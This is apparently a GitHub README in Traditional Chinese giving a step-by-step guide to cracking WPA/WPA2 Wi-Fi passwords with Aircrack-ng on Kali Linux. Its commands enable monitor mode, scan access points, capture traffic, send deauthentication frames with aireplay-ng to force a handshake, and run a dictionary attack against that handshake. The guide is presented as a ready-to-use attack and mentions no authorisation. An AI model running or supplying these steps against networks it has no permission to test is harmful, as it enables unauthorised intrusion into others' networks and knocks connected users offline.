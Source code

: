 # Crack wifi Password
使用Aircrack-ng暴力破解WPA/WPA2加密wifi密碼。

## **環境**
* 系統：Kali Linux
* 硬體：一台有無線網卡的電腦

## **破解流程**
* step1：查看無線網卡名稱
  ```shell
  ifconfig
  ```
* step2：將網卡設定為monitor模式
  ```shell
  airmon-ng start 網卡名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/2.png)
* step3：搜尋目前位置所有 AP 站台
  ```shell
  airodump-ng 網卡監聽後的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/3.png)
* step4：使用`airodump-ng`開始收集封包，並將封包存在指定的目錄下
  ```shell
  airodump-ng -c 頻道 --bssid 目標AP的bssid -w 檔名 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/4.png)
* step5：使用`aireplay-ng`傳送假信號讓AP與Client之間進行互動，進而抓取中間的封包(需另外開視窗動作，收集封包不能斷)
  ```shell
  aireplay-ng -0 發送阻斷封包的數量 -a 目標AP的bssid -c 特定連線主機的bssid 監聽網卡的名稱
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/5.png)
* step6：收集到 handshake
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/6.png)
* step7：使用`aircrack-ng`進行解密，(必須要擁有密碼字典檔)
  ```shell
  aircrack-ng -b 目標AP的bssid -w 密碼字典檔 使用airodump-ng收集到的arp封包
  ```
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-1.png)
  > ![image](https://github.com/WanShannn/Crack-WIFI-Password/blob/main/result/7-2.png)
  
## **References**
* https://shazi.info/%E4%BD%BF%E7%94%A8-aircrack-ng-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3-wpawpa2-%E5%8A%A0%E5%AF%86-wifi-%E5%AF%86%E7%A2%BC/
* https://zh.wikipedia.org/zh-tw/Aircrack-NG
